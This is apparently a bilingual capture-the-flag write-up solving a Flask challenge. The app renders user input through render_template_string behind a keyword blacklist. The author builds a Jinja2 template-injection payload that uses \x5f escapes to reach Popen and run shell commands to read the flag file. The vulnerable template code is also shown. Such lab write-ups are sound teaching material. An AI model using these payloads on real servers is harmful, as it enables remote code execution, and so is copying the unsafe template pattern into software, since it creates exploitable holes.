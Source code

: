 # **Flasksibel**

**Difficulty:** Advanced  
**Flag:** `HC5{4P4k4H_k4L14N_b4Ru_M3ng3N4l_55T1???}`

---

## **EN**

In this challenge, we're provided with a flask-based website and its [source code](./dist/). The website has a simple form consisting of just a text input and a submission button.  
![UI](./assets/image.png)

When submitted, the flask server renders the input as part of the html through a template string.

```py
    template = '''<!DOCTYPE html>
    <html>
    <body>
    <form action="" method="POST">
      Username: <input name="username"> <br>
      <input type="submit" value="Preview!">
    </form>
    <p>{}</p>
    </body>
    </html>'''.format(username)
    return render_template_string(template)
```

Checking out the source code, we see that there is a sanitization mechanism that prevents certain keywords from being inputted into the username,

```py
blacklist = ["os", "popen", "subprocess", "_", "mro", ".", "globals", "locals", "config","builtins", "import"]

def sanitize_input(name):
    for word in blacklist:
        if word in name:
            return False
    return name
```

and if it detects said keywords in the input, the server will return an error object.

````py
      username = sanitize_input(username)
      if not username:
        return jsonify({'error': 'Forbidden Words'})```
````

Looking at the blacklist, it's pretty clear that this flag requires an RCE of some sort, however, the blacklist is quite comprehensive and it took me quite a while to find the right references to work with. (_"\." AND "\_" are both BANNED? Insane._)

So the first entrypoint involves the templating mechanism. The template mechanism uses a format string to render the `username` variable onto it.

What's bad about it, is it doesn't escape/sanitize special characters that can result in the escaping of the template and dropping straight into python code.

This can be confirmed by inputting `{{ 7 * 7 }}`, where if the sanitization was done properly, we'd just see the input, instead we see 49, indicating RCE:
![It executed it](./assets/image-1.png)

So now, it's just a matter of executing `ls` and `cat` somehow, without having to use the words/characters in the blacklist. Working off the [reference I had](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), what I needed was a built-in python class object to start off with.

Fortunately, `dict` was already a class and it wasn't banned, so I started off with that.

```py
{{ dict }}
```

Then, we needed to access the `__subclasses__`. This is done so that we can see every method that inherits the `dict` class, to see which one we can exploit to run the two CLI utilities necessary.

First, what I did was access `__class__`, then drop down to `__base__`. The underscores were escaped by using their UTF-8 code variant, `\x5f`. In hindsight, dropping down to `__class__` wasn't necessary, since `dict` was already a class.

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f'] }}
```

Then, to access the methods I did this:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']() }}
```

This returns a large list of methods.
![Alt text](./assets/image-2.png)
Skimming through, what I was looking for was either a method to load up a file (e.g. `open()`) or one to open up a shell (e.g. `check_output()` or `Popen()`).

At index 352, I see _just_ the tool that I needed, `Popen`. `Popen` wasn't exactly ideal, as my experience with it before has only ever been to use it as a worker spawner w/o bidirectional comms, but we'll have to make do.

Looking around on Google, I found a few references on how to run `Popen` as a single turn (run a single command) shell. Here's the final payload that I came up with:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[352]('# INSERT COMMAND HERE',shell=True,stdout=-1)["communicate"]()[0]["strip"]() }}
```

Using this with `ls`, I tracked the flag down to `/` under the name `flag_ssti.txt`, so I ran this:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[352]('cat /flag\x5fssti\x2Etxt',shell=True,stdout=-1)["communicate"]()[0]["strip"]() }}
```

🎉🎉🎉🎉
![WIN](./assets/image-3.png)

---

## **ID**

Di challenge yang ini kita diberikan website berbasis flask dan [source code](./dist/)nya. Websitenya simpel, form dengan input teks dan button untuk submit.  
![UI](./assets/image.png)

Saat disubmit, teks dirender di server ke htmlnya menggunakan template string.

```py
    template = '''<!DOCTYPE html>
    <html>
    <body>
    <form action="" method="POST">
      Username: <input name="username"> <br>
      <input type="submit" value="Preview!">
    </form>
    <p>{}</p>
    </body>
    </html>'''.format(username)
    return render_template_string(template)
```

Kalau kita lihat di _source code_, kita bisa lihat kalau ada sanitasi yang mencegah _request_ jika mengandung beberapa _keyword_,

```py
blacklist = ["os", "popen", "subprocess", "_", "mro", ".", "globals", "locals", "config","builtins", "import"]

def sanitize_input(name):
    for word in blacklist:
        if word in name:
            return False
    return name
```

dan jika terdeteksi ada _keyword_ dalam request, maka akan return object error.

````py
      username = sanitize_input(username)
      if not username:
        return jsonify({'error': 'Forbidden Words'})```
````

Kalo kita liat blacklistnya ini memang sepertinya sebuah RCE, tetapi melihat listnya cukup komplit, agak susah mencari referensinya. (_"\." DAN "\_" DUA-DUANYA DIBAN? Gile._)

Jadi pintu masuk yang pertama itu melalui mekanisme templatenya, dia menggunakan format string untuk merender variabel `username` ke html.

Yang gak bener itu adalah, kalo kita lihat, dia nggak sanitasi _special characters_ yang bisa digunakan untuk _escape_ dari stringnya terus langsung ke _python_.

Ini bisa kita konfirmasi pake `{{ 7 * 7 }}`, dimana kalo bener, kita harusnya liat sama persis, tapi malah 49, berarti RCE:
![It executed it](./assets/image-1.png)

Nah, tinggal cari cara jalanin `ls` dan `cat`, tanpa pake kata di blacklist. Pake [referensi](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), yang aku perluin pertama adalah class object.

Untungnya, `dict` udah class dan nggak diban, jadi aku mulai dari situ.

```py
{{ dict }}
```

Abis itu kite perlu `__subclasses__`. Ini biar kita bisa liat keturunan si `dict` class, biar bisa tau yang mana yang bsia kita gunakan untuk ngejalanin utility-utility di atas.

Jadi pertama itu `__class__`, terus `__base__`. Underscorenya diganti pake variasi special, `\x5f`. Sebenernya sih, `__class__` nggak perlu, karena `dict` udah class.

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f'] }}
```

Nah, terus kita akses `__subclasses__`:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']() }}
```

Ini hasilnya list yang **gede** banget.
![Alt text](./assets/image-2.png)
Aku cari di listnya untuk sesuatu yang bisa buka file (e.g. `open()`) atau yang bisa buka shell (e.g. `check_output()` or `Popen()`).

Di index 352, keliatan tuh, `Popen`. `Popen` nggak ideal sih sebenernya, karena aku cuman pernah pake dia buat buka worker shell, jadi aku nggak familier dengan sintaksnya, tapi yowes.

Liat-liat di Google, ketemu beberapa referensi untuk jalanin `Popen` sebagai shell sekali jalan (jalanin satu command aja). Ini payload akhirnya yang aku dapet:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[352]('# INSERT COMMAND HERE',shell=True,stdout=-1)["communicate"]()[0]["strip"]() }}
```

Pake ini dengan `ls`, aku nemu flag di `/` dengan nama `flag_ssti.txt`. Udah deh, gini:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[352]('cat /flag\x5fssti\x2Etxt',shell=True,stdout=-1)["communicate"]()[0]["strip"]() }}
```

🎉🎉🎉🎉
![WIN](./assets/image-3.png)
